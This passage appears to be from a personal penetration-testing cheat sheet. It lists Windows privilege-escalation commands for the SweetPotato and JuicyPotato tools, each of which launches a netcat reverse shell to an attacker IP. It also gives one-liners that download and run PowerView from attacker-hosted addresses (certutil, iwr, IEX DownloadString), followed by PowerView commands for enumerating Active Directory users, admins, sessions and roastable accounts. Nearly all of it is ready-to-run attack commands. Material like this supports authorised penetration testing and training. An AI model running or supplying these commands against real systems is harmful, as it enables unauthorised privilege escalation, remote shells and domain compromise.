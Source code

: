 [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)

**SweetPotato**

Download: https://github.com/carr0t2/SweetPotato/releases/tag/v1.0.0

```jsx
.\SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd"
```

[https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)

**JuicyPotato (x86)**

Download: https://github.com/ivanitlearning/Juicy-Potato-x86/releases

Get CLSID: [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)

```jsx
Juicy.Potato.x86.exe -c {CLSID} -t * -l 443 -p "C:\Temp\nc.exe" -a "192.168.45.194 443 -e cmd" 
```

[juicy-potato/CLSID at master · ohpe/juicy-potato](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

Video: [https://www.youtube.com/watch?v=k9p6wZO7RyY](https://www.youtube.com/watch?v=k9p6wZO7RyY)

# Active Directory

[Domain Enumeration + Exploitation | burmat / nathan burchfield](https://burmat.gitbook.io/security/hacking/domain-exploitation)

```jsx
net users
net users /domain
net groups /domain
net localgroup administrators
```

## PowerView

```jsx
certutil -urlcache -split -f http://192.168.45.226/PowerView.ps1
iwr -uri http://10.10.170.141:8080/PowerView.ps1 -UseBasicParsing -OutFile C:\Users\celia.almeda\Documents\PowerView.ps1
Import-Module .\PowerView.ps1

IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.45.171/PowerView.ps1')
```

[PowerView/SharpView | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview)

```jsx
Get-DomainController
Get-NetComputer | select samaccountname, operatingsystem
Get-DomainUser | select cn, samaccountname, memberof
Get-DomainGroupMember -Identity "Domain Admin" -Recurse
Invoke-UserHunter -CheckAccess
Get-NetLoggedon -ComputerName <servername>
Get-NetSession -ComputerName <servername>
Get-DomainUser -PreauthNotRequired
Get-DomainUser -SPN | select name

Find-DomainShare -CheckShareAccess
Find-LocalAdminAccess
Invoke-UserHunter -GroupName "RDPUsers"
Get-NetUser -UACFilter NOT_ACCOUNTDISABLE | select samaccountname, description, pwdlastset, logoncount, badpwdcount

```